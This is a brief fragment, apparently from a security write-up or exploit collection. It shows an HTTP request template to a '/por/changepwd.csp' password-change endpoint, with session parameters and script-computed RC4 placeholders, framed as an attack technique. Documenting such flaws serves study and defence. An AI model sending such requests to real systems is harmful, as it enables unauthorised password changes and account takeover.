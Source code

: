 ![](images/hvv_39.png)

````angular2
https://<PATH>/por/changepwd.csp

sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)

````
![](images/hvv_40.png)
